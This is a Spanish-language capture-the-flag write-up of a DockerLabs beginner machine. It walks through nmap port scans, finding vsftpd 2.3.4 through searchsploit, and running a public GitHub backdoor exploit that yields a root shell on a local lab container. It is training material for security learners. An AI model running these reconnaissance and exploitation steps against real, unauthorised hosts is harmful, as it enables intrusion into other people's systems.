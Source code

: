 # Write Up First Hacking

**Dificultad:** Super fáil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh firsthacking.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta firsthacking, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir firsthacking-dockerlabs
❯ cd firsthacking-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 content
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 exploits
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 nmap
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...
 
     [*] IP Address: 172.17.0.2
     [*] Open ports: 21
 
[*] Ports copied to clipboard

❯ nmap -sCV -p21 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 19:17 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 21 (puerto FTP) es el vsftpd versión 2.3.4.

## Explotación
Una vez hecho el reconocimiento de puertos y servicios, nos damos cuenta que al buscar con searchsploit el servicio vsftpd con la versión 2.3.4 en searchsploit es un servicio vulnerable.
```
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

De esta manera, buscamos en github exploits para esta vulnerabilidad, y nos encontramos con este repositori, nos lo descargamos y lo ejecutamos (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).

```
❯ cd exploits
❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
❯ cd vsftpd_2.3.4_Exploit
❯ sudo python3 -m pip install pwntools
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```

Y ya tenemos acceso a la máquina y sin escalada de privilegios porque ya somos el usuario root!!
